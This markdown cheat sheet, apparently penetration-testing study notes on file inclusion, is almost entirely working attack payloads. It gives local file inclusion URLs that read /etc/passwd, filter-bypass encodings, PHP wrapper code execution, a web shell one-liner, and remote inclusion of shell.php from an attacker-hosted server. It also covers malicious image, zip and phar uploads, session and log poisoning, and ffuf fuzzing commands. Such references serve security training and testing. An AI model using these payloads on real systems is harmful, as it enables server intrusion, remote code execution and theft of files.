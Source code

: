 ```yaml
---
title: File Inclusion
---
```


# Local File Inclusion

| **Command**   | **Description**   |
| --------------|-------------------|
| **Basic LFI** |
| `/index.php?language=/etc/passwd` | Basic LFI | 
| `/index.php?language=../../../../etc/passwd` | LFI with path traversal | 
| `/index.php?language=/../../../etc/passwd` | LFI with name prefix |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path |
| **LFI Bypasses** | 
| `/index.php?language=....//....//....//....//etc/passwd` | Bypass basic path traversal filter |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | Bypass filters with URL encoding |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00` | Bypass appended extension with null byte (obsolete) |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config` | Read PHP with base64 filter |

# Remote Code Execution

| **Command**   | **Description**   |
| --------------|-------------------|
| **PHP Wrappers** |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id` | RCE with data wrapper | 
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper | 
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"` |  RCE with expect wrapper | 
| **RFI** |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell | 
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id` |  Include remote PHP web shell | 
| **LFI + Upload** | 
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` | Create malicious image | 
| `/index.php?language=./profile_images/shell.gif&cmd=id` | RCE with malicious uploaded image | 
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious zip archive 'as jpg' | 
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id` | RCE with malicious uploaded zip | 
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg` | Create malicious phar 'as jpg' | 
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id` | RCE with malicious uploaded phar | 
| **Log Poisoning** | 
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` | Read PHP session parameters | 
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Poison PHP session with web shell | 
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id` | RCE through poisoned PHP session | 
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log | 
| `/index.php?language=/var/log/apache2/access.log&cmd=id` | RCE through poisoned PHP session | 

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287` | Fuzz page parameters | 
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287` | Fuzz LFI payloads | 
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path | 
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287` | Fuzz server configurations | 
| [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)||
| [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) ||
| [Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) ||
| [Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) ||
| [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) ||
| [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows) ||

# File Inclusion Functions
<img src="/assets/images/File_Inclusion_Functions.png"/>